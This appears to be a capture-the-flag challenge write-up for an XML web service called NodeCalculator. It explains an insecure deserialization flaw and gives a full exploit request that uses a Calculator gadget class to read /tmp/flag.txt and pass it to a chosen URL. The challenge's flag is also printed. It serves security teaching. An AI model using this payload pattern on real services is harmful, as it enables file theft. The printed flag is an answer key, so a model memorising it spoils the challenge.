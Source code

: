 ## Background

    Author: spipm
    Category: Webservices
    Difficulty: Easy to Medium

## Technical

This XML service deserializes user input. It has an object field in its class that allows users to enter all objects in scope, and it can be used to get the flag using the Calculator class as a gadget.

## Story

It's a busy day in class. The teacher bot explains that the students need to use the nodecalculator service to calculate their binary distance to the closest leader bot, but the service is still being made. The young bots complain to you, "This doesn't make any sense to me, although to be honest, I didn't make any notes. You're a human, can't you figure out how this service works?"

Can you figure out how to use this service?

Sample request:
(POST request, Content-Type is application/xml)
<Node><location>testing</location></Node>

<img src="./calculator.jpg" width="500">

## Exploit

```
POST /NodeCalculator/nodeCalc HTTP/1.1
Host: localhost:8080
Content-Type: application/xml
Content-Length: 377

<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<Node>
<constructor xsi:type="calculator" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
	<locationA>noxxe</locationA><locationB>/tmp/flag.txt</locationB>
	<serverValidationCheck>http://host/</serverValidationCheck>
</constructor>
<location>testing</location>
</Node>
```

## Flag

brck{Y0u_Pay3d_Att3nt10n_In_Cl4ss}
